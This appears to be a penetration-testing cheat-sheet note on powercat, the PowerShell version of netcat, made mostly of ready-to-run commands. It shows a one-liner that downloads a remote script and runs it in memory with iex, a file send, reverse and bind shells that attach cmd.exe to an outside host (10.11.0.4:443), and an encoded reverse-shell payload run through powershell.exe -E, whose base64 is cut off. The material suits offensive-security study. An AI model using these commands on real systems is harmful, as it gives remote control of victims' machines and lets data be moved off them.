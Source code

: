 ```yaml
---
Description: Is the PowerShell version of netcat. It can be downloaded using apt install powercat.
URL: https://github.com/besimorhino/powercat
---
```


>[!info]
>Is the PowerShell version of [netcat](netcat.md). It can be downloaded using `apt install powercat`.
>File will results within `/usr/share/windows-resources/powercat` directory.

Loading powercat within the current PowerShell session trough the Dot-Souring:

```powershell
PS C:\Users\Offsec> . .\powercat.ps1
```

Loading the script in memory from a remote machine:

```powershell
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

---

## File transfer

Sending files as client:

```powershell
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

---

## Shell

### Reverse Shell

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

### Bind Shell

```powershell
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
```

---

## Generate stand-alone payloads

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
PS C:\Users\offsec> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAH IAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzACkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAs ACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQByAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYg BhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAbwBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAA IAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAoAIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgAC AAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByAHMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBl AAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA BlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAcABDAGwAaQBlAG4AdAAKACAAIAAgACA
```